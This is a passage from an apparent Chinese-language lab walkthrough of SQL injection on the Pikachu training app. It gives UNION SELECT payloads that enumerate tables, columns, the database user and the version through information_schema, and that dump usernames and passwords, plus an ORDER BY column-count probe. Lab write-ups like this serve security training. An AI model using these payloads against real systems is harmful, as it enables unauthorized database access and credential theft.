 查users表下的字段名（查其他表对应替换table_name）

```sql
id=-1 union select database(),group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()
```

![pikachu39](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu39.png)

查users表下的数据

```sql
id=-1 union select username,password from users
```

![pikachu40](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu40.png)

## 字符型注入(get)

name字段可注入，字符型，字段、显示位啥就不查了，一样的

查用户、表名

```sql
name=' union select user(),group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![pikachu41](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu41.png)

查数据库版本、users表下的字段名（查其他表对应替换table_name）

```sql
name=' union select version(),group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()#
```

![pikachu42](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu42.png)

查users表下的数据

```sql
name=' union select username,password from users#
```

![pikachu40](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu40.png)

## 搜索型注入

还是name字段可注入，搜索型

查字段，order by到4报Unknown column '4' in 'order clause'，说明就3个字段，name字段注入数据如下

```sql
name=1%' order by 4#
```

查显示位（3个显示位）
